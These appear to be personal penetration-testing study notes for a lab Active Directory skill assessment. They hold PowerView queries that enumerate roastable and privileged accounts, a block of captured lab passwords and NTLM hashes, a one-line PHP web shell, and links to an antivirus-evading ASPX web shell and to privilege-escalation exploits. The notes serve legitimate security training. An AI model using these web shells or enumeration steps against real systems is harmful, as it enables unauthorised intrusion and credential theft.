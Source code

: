 ```c
h

---
---
LDAP Skill Assessment

```c
# Q1
Get-DomainUser -LDAPFilter "(userAccountControl=262656)" | Select samaccountname, useraccountcontrol, distinguishedname

# Q2
Get-DomainUser -Domain INLANEFREIGHTENUM1.LOCAL `
  -LDAPFilter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" `
  | Select samaccountname, useraccountcontrol, distinguishedname

# Q3 
(Get-DomainGroup -Identity "IT Support" -Domain INLANEFREIGHTENUM1.LOCAL -Properties memberof).memberof |
    ForEach-Object { ($_ -split ',')[0] -replace '^CN=' }

# Q4
$g='Server Technicians'; $direct=(Get-DomainGroupMember $g | ? {$_.MemberObjectClass -eq 'user'} | % MemberSID); Get-DomainGroupMember $g -Recurse | ? {$_.MemberObjectClass -eq 'user' -and ($_.MemberSID -notin $direct)} | % { Get-DomainUser -Identity $_.MemberSID -Properties givenName,sn,samAccountName } | % { if($_.givenName -and $_.sn){"$($_.givenName).$($_.sn)"} else { $_.samAccountName } }

# Q5
(Get-DomainUser -SearchBase "OU=Former Employees,DC=INLANEFREIGHTENUM1,DC=LOCAL").Count

# Q6
$d='INLANEFREIGHTENUM1.LOCAL'
Get-DomainComputer -Domain $d -LDAPFilter "(name=RD*)" -Properties dNSHostName,name |
  ForEach-Object { if ($_.dNSHostName) { $_.dNSHostName } else { "$($_.name).$d" } } |
  ForEach-Object { $_.ToUpper() }

# Q7
(Get-ADGroup -LDAPFilter "(adminCount=1)").Count

# Q8
Get-DomainUser -Domain INLANEFREIGHTENUM1.LOCAL -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=4194304)' | select samaccountname,distinguishedname

# Q9
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname

# Q10
(Get-DomainPolicy).PrivilegeRights
```
---
---
```c
[+] INLANEFREIGHT.LOCAL\Juliette:Password1
[+] Atul\hooters1
[+] SQL01\sqldev:Sq!D3vUs3R
Welcome1
administrator : MyG00dandSecureP@$$Word

admiinistartor : aa8058d010273e4a9c5043280a84b2bb
SQL01$ : d92707cc5c2c85a061517c750fc4ead1
```

```c
than use get-file to get whatever you found in the dev share.

This will get you to the SQL01

Than try SELECT * FROM [interns].[dbo].details

But also there is the flag on that machine, you will have to priv than impersonate and more c:\Users\Public\flag.txt

So 2 things you will get so you can continue.
```




- [ ] add xampp to my notes

https://github.com/n0xturne/OSCP-Cheat-Sheet-2024

https://medium.com/@nomanramzan91/muhammad-nomans-oscp-journey-a-comprehensive-review-110-and-tips-in-12-hours-57c8ee2c1a3d

.htaccess


https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

https://www.hackingarticles.in/red-teaming/
https://www.hackingarticles.in/penetration-testing/

https://raw.githubusercontent.com/yayip/aspx-webshell-antivirus-bypass/refs/heads/main/aspx_bypass_av.aspx

exploits like pwnkit
.git exploits

SeMachineAccountPrivilege -> exploit it using nopac https://www.hackingarticles.in/windows-privilege-escalation-samaccountname-spoofing/


check all the windows privilege escalation methods


add all web extensions in web methodology
make a custom wordlist for authentication bypass
sqli , nosqli etc 

<?php system($_GET[“cmd”]);?>
```


----
---
#### Modules

- [ ] DACL 1 - Skill Assessment
- [ ] BloodHound - Custom Queries
- [ ] Footprinting Skill assessment
- [ ] Wordpress
- [ ] Attacking Enterprise Network
- [ ] File Upload Attacks
- [ ] LFI/RFI
	- [ ] dont forget to add windows notes
- [ ] .htaccess
- [ ] XSS
#### Machines To Solve

- [ ] Attacking Enterprise Network
#### Ideas

- [ ] automate web enumeration ? 
- [ ] edit my notes
```
edit web notes
